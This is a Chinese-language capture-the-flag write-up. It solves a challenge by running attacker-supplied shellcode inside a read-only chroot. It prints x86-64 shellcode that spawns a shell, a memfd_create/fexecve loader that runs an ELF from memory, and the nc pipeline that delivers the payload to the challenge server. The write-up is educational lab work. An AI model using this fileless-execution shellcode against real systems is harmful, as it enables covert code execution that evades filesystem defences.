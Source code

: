 ## 只读文件系统

首先看看代码什么功能：

- `overflow.c` 从 stdin 读了至多 4096 byte 的 payload 然后执行；
- `checker.py` 在 `chroot` 里启动 `overflow` 程序，然后不断检查 procfs 里的可执行文件镜像，如果和 `/hello` 一样就输出 flag。

大方向非常明显，就是我们要让 `overflow` 程序 `exec` 成 `/hello`。一开始我考虑的方向有：

1. 把 `hello` 写到某个 tmpfs 里再 `exec`；
2. 通过某种方式脱出 `chroot`。

这里先插个简单的 shellcode 拿 shell，看看环境里有什么可以利用的：

```
.globl  main
.type   main, @function
main:
    pushw $0x0068
    pushw $0x732f
    pushw $0x6e69
    pushw $0x622f

    movq %rsp, %rdi    # arg1: '/bin/sh'
    xorq %rdx, %rdx    # arg3: envp = NULL
    pushq %rdx
    pushq %rdi
    movq %rsp, %rsi    # arg2: argv = ['/bin/sh', NULL]
    movq $59, %rax
    syscall

    xorq %rdi, %rdi
    movq $60, %rax     # sys_exit
    syscall
```

好像确实没啥可落脚的地方：

```
ls /bin
cat ls sh
echo > /overflow
/bin/sh: 3: cannot create /overflow: Read-only file system
echo > /dev/xx
/bin/sh: 5: cannot create /dev/xx: Read-only file system
echo > /dev/fd/xx
/bin/sh: 6: cannot create /dev/fd/xxx: Read-only file system
```

后来研究了一会儿如何脱出 `chroot`，`unshare --mount` 可能是可行的。但服务器 chroot 环境里什么可执行文件都没有，自己写汇编实现感觉又非常麻烦，所以就暂时放弃这个思路了。

搜索 `run elf in memory`，得知可以用 `memfd_create + fexecve` 直接跑内存里的可执行文件。下面是个很简单的测试程序：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>

int main(int argc, char **argv) {
    int mfd = memfd_create("", MFD_CLOEXEC);
    int rfd = open("./hello", O_RDONLY);
    char buf[8];

    while (1) {
        int nb = read(rfd, buf, 8);
        if (nb == 0) break;
        write(mfd, buf, nb);
    }

    const char * const new_argv[] = {"hello", NULL};
    const char * const new_envp[] = {NULL};
    int ret = fexecve(mfd, new_argv, new_envp);
    return ret;
}

```

本地测试一下，确实是可行的：

```
SHELL1 $ gcc memfd_test.c && ./a.out
SHELL2 $ ls -l /proc/$(pidof hello)/exe
lrwxrwxrwx 1 cuihao cuihao 0 Oct 25 17:47 /proc/67371/exe -> '/memfd: (deleted)'
SHELL2 $ diff /proc/$(pidof hello)/exe hello
```

接下来构造 shellcode payload。注意到 `hello` 可执行文件有 16744 byte，而 `overflow` 最多读 4096 byte 肯定是不能直接塞 payload 里的。所以需要先写一段代码从 stdin 读可执行文件到 memfd。

我一开始的做法是，把 shellcode payload 补零填充到 4096 byte，后面再接上可执行文件。我以为 `overflow` 的 `read` 会读完 4096 byte 的 shellcode，然后 shellcode 读到的就是可执行文件。本地测试时这样的确没有问题，但扔到服务器就是不行。后来加了一些 `print`（汇编里 print debug 也很麻烦）才发现 **`read` 一次并不能读满 4096 byte**（可能是网络传输的原因），所以 shellcode 里会读到一些填充的0。

解决方法是在 shellcode 里加一个循环，丢掉一开始的多出的 0。最后的 shellcode 如下：

```
.globl  main
.type   main, @function
main:
    pushw $0x0000
    movq %rsp, %rdi        # arg1: name = ""
    movq $1, %rsi          # arg2: flags
    movq $319, %rax        # sys_memfd_create
    syscall
    movq %rax, %r15        # r15: memfd

    xorw %ax, %ax
    pushw %ax              # input buffer (2B, but only 1B is used)

    leaq 0x40(%rip), %r12  # r12 to break
    leaq (%rip), %r13      # r13 to loop1 body

    # loop1 (skip zero bytes)
    movq %rsp, %rsi        # arg2: buffer
    xorq %rdi, %rdi        # arg1: fd = stdin
    movq $1, %rdx          # arg3: count = 1
    movq $0, %rax          # sys_read
    syscall

    movw (%rsp), %cx
    testw %cx, %cx
    cmovnzq %r12, %r13     # if buffer[0] == 0
    jmp *%r13              #   break

    nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;
    nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;
    nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;

    movq $16744, %r10      # r10: total size to write
    leaq 0x40(%rip), %r12  # r12 to break
    leaq (%rip), %r13      # r13 to loop2 body

    # loop2 (stdin -> memfd)
    movq %r15, %rdi        # arg1: memfd
    movq %rax, %rdx        # arg3: count
    movq $1, %rax          # sys_write (arg2: buffer, unchanged)
    syscall
    subq %rax, %r10        # update size to write

    xorq %rdi, %rdi        # arg1: fd = stdin = 0
    movq $1, %rdx          # arg3: count = 1
    movq $0, %rax          # sys_read (arg2: buffer, unchanged)
    syscall

    testq %r10, %r10
    cmovzq %r12, %r13      # if r10 == 0 (all bytes are written) 
    jmp *%r13              #   break

    nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;
    nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;

    popw %ax
    movq %rsp, %rsi        # arg2: filename = ""
    pushw $0x5555
    movq %rsp, %rax
    pushq $0x0000
    pushq %rax
    leaq (%rsp), %rdx      # arg3: argv = ['\x55\x55', NULL]
    leaq 8(%rsp), %r10     # arg4: envp = [NULL]
    movq %r15, %rdi        # arg1: dfd
    movq $0x1000, %r8      # arg5: flags = AT_EMPTY_PATH
    movq $322, %rax        # sys_execveat
    syscall
```

**这里条件 jmp 的实现非常扭曲**。因为我当时以为 label 不是 [position independent](https://en.wikipedia.org/wiki/Position-independent_code) 的，不能在 shellcode 用。事实上包括 `jmp` 在内的跳转指令[会用相对地址寻址](https://stackoverflow.com/questions/18120234/)，所以直接用 label 没有问题。

下面把 shellcode 扔到服务器上就能拿到 flag 了：

```
$ gcc loader.s -o loader
$ objdump --disassemble=main loader
......
0000000000001119 <main>:                   
    1119:       66 6a 00                pushw  $0x0
......
    1208:       0f 05                   syscall 
    120a:       66 0f 1f 44 00 00       nopw   0x0(%rax,%rax,1)
$ dd if=loader ibs=1 skip=$((0x1119)) count=$((0x120a-0x1119)) of=loader.shellcode
$ truncate -s 4096 loader.shellcode
$ (printf "$FLAG\n"; sleep 5; cat loader.shellcode; cat hello; echo; cat) | nc 202.38.93.111 10106
Please input your token: Starting challenge...
Checking...
hello world
Checking...
flag{......}
```
